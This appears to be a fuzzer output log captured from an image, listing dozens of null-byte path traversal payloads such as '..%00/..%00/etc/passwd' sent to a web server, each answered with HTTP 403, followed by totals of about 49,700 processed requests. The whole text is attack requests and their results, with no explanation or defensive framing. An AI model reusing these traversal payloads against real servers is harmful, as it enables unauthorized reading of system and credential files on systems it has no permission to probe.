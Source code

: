 ```bash
000049739:   403        4 L      18 W       168 Ch      "%00../%00../%00../etc/passwd"                                             
000049738:   403        4 L      18 W       168 Ch      "%00../%00../etc/passwd"                                                   
000049737:   403        4 L      18 W       168 Ch      "%00../etc/passwd"                                                         
000049742:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../etc/passwd"                           
000049740:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../etc/passwd"                                       
000049746:   403        4 L      18 W       169 Ch      ".%00./.%00./etc/passwd"                                                   
000049754:   403        4 L      18 W       170 Ch      "..%00/..%00/etc/passwd"                                                   
000049753:   403        4 L      18 W       170 Ch      "..%00/etc/passwd"                                                         
000049760:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"               
000049759:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"                     
000049758:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"                           
000049757:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/etc/passwd"                                 
000049756:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/etc/passwd"                                       
000049755:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/etc/passwd"                                             
000049745:   403        4 L      18 W       169 Ch      ".%00./etc/passwd"                                                         
000049751:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"                     
000049752:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"               
000049750:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"                           
000049749:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./etc/passwd"                                 
000049748:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./etc/passwd"                                       
000049747:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./etc/passwd"                                             
000049741:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../etc/passwd"                                 
000049743:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../%00../etc/passwd"                     
000049744:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../%00../%00../etc/passwd"               

Total time: 0
Processed Requests: 49743
Filtered Requests: 49703
Requests/sec.: 0
```
